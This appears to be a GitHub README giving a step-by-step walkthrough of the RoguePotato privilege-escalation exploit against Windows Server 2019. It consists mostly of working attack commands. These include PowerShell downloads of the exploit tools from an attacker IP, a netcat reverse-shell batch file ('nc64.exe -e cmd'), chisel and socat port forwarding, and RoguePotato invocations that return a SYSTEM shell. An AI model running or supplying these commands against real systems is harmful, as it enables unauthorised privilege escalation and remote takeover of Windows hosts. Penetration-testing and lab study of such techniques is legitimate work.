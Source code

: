 # Rogue-Potato

[JuicyPotato](https://k4sth4.github.io/Juicy-Potato/) abused SeImpersonate or SeAssignPrimaryToken privileges to get execution as SYSTEM. 
But it fails against Windows Server 2019. RoguePotato can be use to abuse abused SeImpersonate Priviledge, if the target OS is Windows Server 2019.

# Exploitation

All we need is [RoguePotato.exe](https://github.com/k4sth4/Rogue-Potato/blob/main/RoguePotato.exe) , [Compatible Chisel for Win and Linux](https://github.com/k4sth4/Rogue-Potato) and [nc binary](https://github.com/k4sth4/Rogue-Potato).

### Upload all these on target machine

```markdown
powershell -c wget http://10.10.x.x:8080/RoguePotato.exe -outfile RoguePotato.exe
powershell -c wget http://10.10.x.x:8080/chiselx64.exe -outfile chisel.exe
powershell -c wget http://10.10.x.x:8080/nc64.exe -outfile nc64.exe
```

### Create a reverse shell on target machine and set chisel

```markdown
echo c:\\Windows\\Temp\\nc64.exe -e cmd 10.10.x.x 1234 > rev.bat
```

### Now run chisel on Attacker VM.
```markdown
./chisel server -p 8000 --reverse
```

### Now run chisle.exe on Traget Machine
```markdown
.\chisel.exe client 10.10.x.x:8000 R:135:localhost:9999
```
Note: 10.10.x.x is the Attacker IP.

We've open ports using chisel, now we can do the attack using RoguePotato.exe.

First we need to get another shell of the target user. As we can see that this shell is busy on port forwarding.
After gettng shell-2 we can set our listner on port that we've defined on rev.bat.

nc -nvlp 1234

## Getting Reverse Shell
### Now on shell-2 we can execute payload.

```markdown
.\RoguePotato.exe -r 10.10.x.x -l 9999 -e c:\\Windows\\Temp\\rev.bat
```

#### If you're using Powershell.
```markdown
.\RoguePotato.exe -r 10.10.x.x -l 9999 -e "powershell c:\\Windows\\Temp\\shell.ps1"
```

## Another Way Using socat

We can also use socat to port forward 135.
First set chisel on Kali vm as mentioned above.
Then on Target machine run chisel as:
```markdown
.\chisel.exe client 10.10.x.x:8000 R:9999:localhost:9999
```
Then set socat on Attacker VM (kali vm)
```markdown
socat tcp-listen:135,reuseaddr,fork tcp:127.0.0.1:9999
```
Now get another shell and run RoguePotato.exe as mentioned above you will get reverse shell as SYSTEM.

